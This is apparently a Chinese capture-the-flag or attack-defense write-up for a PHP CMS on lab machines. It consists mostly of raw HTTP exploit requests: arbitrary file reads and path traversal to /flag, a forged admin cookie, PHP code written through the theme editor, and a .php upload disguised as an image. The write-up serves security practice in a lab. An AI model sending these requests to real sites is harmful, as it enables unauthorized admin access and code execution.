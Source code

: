 任意文件读取
漏洞文件位置
 admin/download.php
Payload：
http://120.46.45.74:8802/admin/download.php?ﬁle=/ﬂag
构造cookie，获取管理员权限
漏洞文件位置
admin/inc/cookie_functions.php
所有靶机使用同一套代码，所以secert一致，且权限验证使用由secret保护的cookie，因为可以构造出cookie绕过后台认证
  GET /admin/index.php HTTP/1.1
  Host: en:9090
  Cache-Control: max-age=0
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1)
  AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
  Accept:
  text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng
  ,*/*;q=0.8
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6
  Cookie:
  PHPSESSID=ihnaj9k303tvk1cdcgkht603n7;ed8c17063464177da4361f1eb2c94ce8cf032a
  3e=c916d462aa29995c5c4c5ac66fac3dc5cd93cf4f
  Connection: close
管理员配置泄露，可以登录后台
漏洞文件位置
data/users/admin.xml 
任意文件包含
漏洞文件位置
index.php
POST /admin/changedata.php HTTP/1.1
  Host: en:9090
  Content-Length: 247
  Cache-Control: max-age=0
  Origin: http://en:9090
  Upgrade-Insecure-Requests: 1
  Content-Type: application/x-www-form-urlencoded
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1)
  AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
  Accept:
  text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng
  ,*/*;q=0.8
  Referer: http://en:9090/admin/edit.php
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6
  Cookie: PHPSESSID=ihnaj9k303tvk1cdcgkht603n7;
  ed8c17063464177da4361f1eb2c94ce8cf032a3e=c916d462aa29995c5c4c5ac66fac3dc5cd
  93cf4f
  Connection: close
  nonce=cac1449f47ecdbf5b2da0dd3e51e12067a3c9e92&post-author=&post-
  title=haozi&post-private=&post-parent=&post-template=../../../flag&post-
  menu=&post-menu-order=&post-id=&post-metak=&post-metad=&post-
  content=haozigege&redirectto=&submitted=Save+Page
然后访问
/index.php?id=haozi 
即可获取flag
任意文件修改
漏洞文件
admin/theme-edit.php 
Payload
POST /admin/theme-edit.php?t=Innovation&f=template.php HTTP/1.1
  Host: en:9090
  Content-Length: 128
  Cache-Control: max-age=0
  Origin: http://en:9090
  Upgrade-Insecure-Requests: 1
  Content-Type: application/x-www-form-urlencoded
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1)
  AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
  Accept:
  text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng
  ,*/*;q=0.8
  Referer: http://en:9090/admin/theme-edit.php?
  t=Innovation&f=Default+Template&s=Edit
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6
  Cookie: PHPSESSID=ihnaj9k303tvk1cdcgkht603n7;
  ed8c17063464177da4361f1eb2c94ce8cf032a3e=c916d462aa29995c5c4c5ac66fac3dc5cd
  93cf4f
  Connection: close
  nonce=837ba390df90c379199b4e0c5a17e9b7d258d81e&content=<?php phpinfo();?
  >&edited_file=Innovation%2F1.php&submitsave=Save+Changes
可以将phpinfo写到1.php中
任意文件读取
admin/theme-edit.php 
GET /admin/theme-edit.php?t=Innovation&f=../../../flag&s=Edit HTTP/1.1
  Host: en:9090
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1)
  AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
  Accept:
  text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng
  ,*/*;q=0.8
  Referer: http://en:9090/admin/theme-edit.php
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6
  Cookie: PHPSESSID=ihnaj9k303tvk1cdcgkht603n7;
  ed8c17063464177da4361f1eb2c94ce8cf032a3e=c916d462aa29995c5c4c5ac66fac3dc5cd
  93cf4f
  Connection: close
任意文件上传
admin/upload.php 
 POST /admin/upload.php HTTP/1.1
  Host: teach:85
  Content-Length: 302
  Cache-Control: max-age=0
  Origin: http://teach:85
  Upgrade-Insecure-Requests: 1
  Content-Type: multipart/form-data; boundary=----
  WebKitFormBoundaryjFXJM5hTvUrnM4Eu
  User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1)
  AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
  Accept:
  text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng
  ,*/*;q=0.8
  Referer: http://teach:85/home.php
  Accept-Encoding: gzip, deflate
  Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6
  Cookie: PHPSESSID=ildobkssgh3pkglotiblr9oo77;
  ed8c17063464177da4361f1eb2c94ce8cf032a3e=c916d462aa29995c5c4c5ac66fac3dc5cd
  93cf4f
  Connection: close
  ------WebKitFormBoundaryjFXJM5hTvUrnM4Eu
  Content-Disposition: form-data; name="file[]"; filename="1.php"
  Content-Type: image/png
  <?php phpinfo();?>
  ------WebKitFormBoundaryjFXJM5hTvUrnM4Eu
  Content-Disposition: form-data; name="submit"
  shell
  ------WebKitFormBoundaryjFXJM5hTvUrnM4Eu--